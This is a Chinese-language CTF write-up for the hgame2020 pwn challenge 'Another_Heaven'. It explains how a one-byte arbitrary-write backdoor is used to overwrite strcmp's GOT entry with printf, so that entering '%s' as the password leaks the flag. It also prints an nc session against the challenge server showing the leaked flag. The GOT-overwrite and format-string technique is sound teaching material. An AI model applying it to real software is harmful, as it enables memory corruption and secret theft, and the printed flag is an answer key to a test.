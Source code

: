   ```python

p.interactive()
  ```

 

## Another_Heaven

 - 题目描述：永遠と呼びたい 君に 出逢えた ことだけは（什么鬼...）
 - 题目地址：[Another_Heaven](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/hgame2020/pwn/week2_3/Another_Heaven)
 - 考察点：GOT改写
 - 难度：简单
 - 分值：200
 - 完成人数：35

### 0x0 程序分析

反汇编分析代码，发现有一个`Pxxxhub`的后门，可修改`1`字节任意内存：

```c
puts("There is a back door...\"Hacked by Annevi!\"");
*addr = readi();
read(0, *addr, 1uLL);
```

`init()`中读了`flag`，随后有个`strcmp`对比`password`与`flag`

```c
printf("Password:", account);
read_n(password, 48);
if ( !strcmp(password, flag) )
{
puts("Welcome!The emperor Qie!");
puts("|Recommended|Hottest|Most Viewed......");
result = 0;
}
```

### 0x1 漏洞利用

用修改`1`字节任意内存的后门改写`GOT`表，把`strcmp`改为`printf`

然后就是骚操作了：读`password`时，输入`%s`，这时候：

> `strcmp(password, flag)`相当于`printf("%s",flag)`

```shell
% nc 47.103.214.163 21001
There is a back door..."Hacked by Annevi!"
6299752
&
==========================================
____
|  _ \ ___  _ __ _ __ | | | |_   _| |__  
| |_) / _ \| '__| '_ \| |_| | | | | '_ \ 
|  __/ (_) | |  | | | |  _  | |_| | |_) |
|_|   \___/|_|  |_| |_|_| |_|\__,_|_.__/ 

==========================================
Login System
Account:Password:%s
hgame{VGhlX2Fub3RoZXJfd2F5X3RvX2hlYXZlbg==}Wrong Password!
Forgot your password?(y/n)
```
